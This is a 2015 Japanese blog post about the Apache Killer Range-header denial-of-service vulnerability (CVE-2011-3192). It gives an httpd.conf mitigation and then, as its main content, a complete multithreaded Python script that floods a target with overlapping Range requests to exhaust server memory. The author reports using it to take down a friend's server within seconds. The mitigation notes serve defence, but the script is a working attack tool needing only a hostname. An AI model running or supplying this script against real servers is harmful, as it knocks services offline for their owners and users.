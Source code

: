 ```yaml
---
title: pythonでapache killerを書いてみる
pubtime: 2015-07-01T15:25:00+09:00
tags: [Web, Apache, Python, セキュリティ]
description: 友人のサーバの脆弱性を調べていたらapacheのバージョンが古かったので、試しにapache killerと言われる攻撃手法を試してみました。
---
```


友人の自宅サーバの脆弱性検査をしていたら、apacheのバージョンが随分と古かったのでapache killer(CVE-2011-3192)をさくっと叩いてみました。
ツール起動して十数秒でダウンするという恐ろしさ。

この脆弱性を持っているのはApache 2.2.19以前と、2.0.64以前らしいです。

**httpd.conf**に以下のような設定を付け足すと大丈夫になるようです。
``` apache
# Drop the Range header when more than 5 ranges.
# CVE-2011-3192
SetEnvIf Range (?:,.*?){5,5} bad-range=1
RequestHeader unset Range env=bad-range

# We always drop Request-Range; as this is a legacy
# dating back to MSIE3 and Netscape 2 and 3.
RequestHeader unset Request-Range
```
[参考サイト](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)に載っていたのそのままなのでコメント入ってますけど、結局のところ三行。シンプルだね。

さて、本題。
攻撃用に書いたコードがこんな感じです。python3。
``` python
import socket
import threading


target = ''  # target host name. eg. 'example.com'


dat = '''HEAD / HTTP/1.1
Host: {}
Range: bytes=0-1,1-2,2-3,3-4,4-5,5-6,6-7,7-8,8-9,9-10,10-11,11-12,12-13,13-14,0-1
Accept-Encoding: gzip
Connection: keep-alive


'''.format(target).encode('ascii')


def attack():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target, 80))

        while True:
            sock.send(dat)
            if sock.recv(1024) == b'':
                break


if __name__ == '__main__':
    for i in range(10):
        t = threading.Thread(target=attack).run()
```
ご覧いただくとお分かり頂けるように、Rangeヘッダになんか凄い値が入っています。
0バイト目から1バイト目、1バイト目から2バイト目、2バイト目から・・・みたいな指定の仕方。
こういった感じでRangeヘッダで分割しまくると、メモリを物凄く食ってしまうそうです。

このコードではkeep-aliveを指定したコネクションを張るスレッドを10個立てて、件のリクエストを送り続けます。
アクセスログ見てるとかなり面白い。

そんなわけで。もう一度対策の設定を見てみる。
``` apache
SetEnvIf Range (?:,.*?){5,5} bad-range=1  # Rangeヘッダに,がいっぱいある場合はbad-rangeに1を設定
RequestHeader unset Range env=bad-range  # bad-rangeが設定されているなら、Rangeヘッダを削除。
```
こんな感じか。なるほど。

``` apache
RequestHeader unset Request-Range
```
こっちの意味はよく分からんのですが、コメントを見る限りでは古いブラウザの一部がこのヘッダを指定してくる、ということなのかな？

余談ですが、サーバのバージョンは必ず隠そうね。どういう脆弱性があるかを推察されてしまう。

---

参考：
- [Apache killerは危険&#65374;Apache killerを評価する上での注意&#65374; | 徳丸浩の日記](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)
- [Here's a Preliminary "Apache Killer" Test Script - Blogging Techstacks](http://blog.techstacks.com/2011/08/heres-a-preliminary-apache-killer-test-script.html)
